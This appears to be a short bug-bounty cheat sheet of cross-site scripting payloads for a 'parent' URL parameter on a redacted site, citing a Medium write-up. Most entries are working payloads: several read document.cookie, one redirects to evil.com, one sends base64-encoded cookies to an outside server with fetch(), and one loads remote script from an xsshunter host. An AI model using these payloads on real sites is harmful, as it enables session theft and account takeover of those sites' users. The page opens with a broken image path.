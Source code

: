 
### XSS 1
```
parent=confirm`smilehacker`
```
---


### XSS 2a
```
parent=confirm(document?.cookie) 
```
---


### XSS 2b
```
parent=confirm(this[`document`][`cookie`])
```
---


### XSS 3
```
https://www.redacted.com/path?parent=(location=`https://evil.com`)
```
---


### XSS 4
```
https://www.redacted.com/path?parent=fetch(`https://xss-server.com/path/?p=`%252bbtoa(document?.cookie))
(Works in latest browsers)
```
---


### XSS 5
```
https://www.redacted.com/path?parent=$.getScript(`//xsshunter.xss.ht`)
```
---



### Smile Hacker
> source: https://medium.com/@smilehackerofficial/xss-that-can-pay-your-bills-9377eff1fd0d
---



### Sep/6 Alan Brian - Never Give Up, The Story Behind a Dupe-To-Triage
---
